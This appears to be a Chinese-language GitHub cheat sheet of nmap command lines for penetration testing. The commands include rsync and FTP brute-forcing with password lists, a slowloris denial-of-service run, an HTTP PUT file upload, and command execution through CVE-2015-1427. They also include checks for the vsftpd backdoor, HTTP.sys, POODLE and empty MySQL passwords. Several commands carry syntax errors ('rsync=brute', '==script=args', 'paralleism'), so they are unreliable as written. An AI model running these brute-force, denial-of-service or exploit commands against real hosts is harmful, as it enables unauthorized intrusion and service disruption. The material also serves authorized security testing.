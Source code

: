 ### rsync未授权漏洞
```bash
nmap -p 873 --script rsync=brute ==script=args 'rsync-brute.module=www'
```

### http拒绝服务
```bash
nmap --max-paralleism 800-script http=slowloris siteaddress
```

### ftp弱口令暴力破解
```bash
nmap --script ftp-brute --script-args brute.emptypass=true,ftp-brute.timeout=30,userdb=/root/dirtionary/usernames.txt,brute.useraspass=true,passdb=/root/dirtionary/passwords.txt,brute.threads=3,brute.delay=6 ipaddress
```

### 检测CVE-2011-2523中的ftp-vsftpd-backdoor
```bash
nmap -T2 --script ftp-vsftpd-backdoor ipaddress
```

### 验证http中开启的-methods 方法
```bash
nmap -T3 --script http-methods --script-args http.test-all=true,http.url-path=/siteaddress
```

### 验证HTTP.sys 远程代码执行
```bash
nmap -sV --script http-vuln-cve2015-1635 ipaddress
```

### 验证 SSL POODLE information leak
```bash
nmap -sV -p 443 --version-light --script ssl-poodle ipaddress
```

### 验证http 中开启了put 方法
```bash
nmap --script http-put --script-args http-put.url=/uploads/testput.txt,http-put.file=/root/put.txt ipaddress
```

### 验证mysql 匿名访问
```bash
nmap --script mysql-empty-password ipaddress
```

### 验证cve2015-1427 漏洞
```bash
nmap --script http-vuln-cve2015-1427 --script-args command=ls ipaddress
```
